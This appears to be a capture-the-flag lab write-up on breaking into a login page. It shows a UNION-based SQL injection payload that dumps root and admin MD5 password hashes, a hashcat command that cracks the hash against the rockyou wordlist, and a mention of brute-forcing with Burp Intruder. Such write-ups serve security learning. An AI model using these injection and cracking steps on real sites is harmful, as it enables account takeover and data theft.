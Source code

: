 # Bruteforce Login

On website with a login page, if we know a username (login) of a member of the site,
we can try every password in a big wordlist of old leaked password on internet.
The most famous wordlist is named rockyou, it contain more that 1 million passwords.
On some website you are timeout after 3 attempts, it is to protect against that attack.

With the SQL Injection, we found a Member_Brute_Force schema in db_default table.

As _username_ and _password_ are columns of _Member_Brute_Force_ schema, which is part of the table _name _db_default_

We can now try
```
1 UNION SELECT username,password FROM Member_Brute_Force.db_default
```

And we get
```
ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: root
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8

ID: 1 UNION SELECT username,password FROM Member_Brute_Force.db_default
First name: admin
Surname : 3bf1114a986ba87ed28fc1b5884fc2f8
```

This is probably an hash for the root and admin password, it loots like md5

Lets try bruteforce it with hashcat in kali
```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 0 -a 0 hash /usr/share/wordlists/rockyou.txt --force

3bf1114a986ba87ed28fc1b5884fc2f8:shadow

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
```

We can also bruteforce the login page with BurpSuite, and the intruder tool with a wordlist,
but we have to know the login to bruteforce the password.

In this challenge, we can get the flag with the password "shadow" and any login,
not only "root" and "admin"...

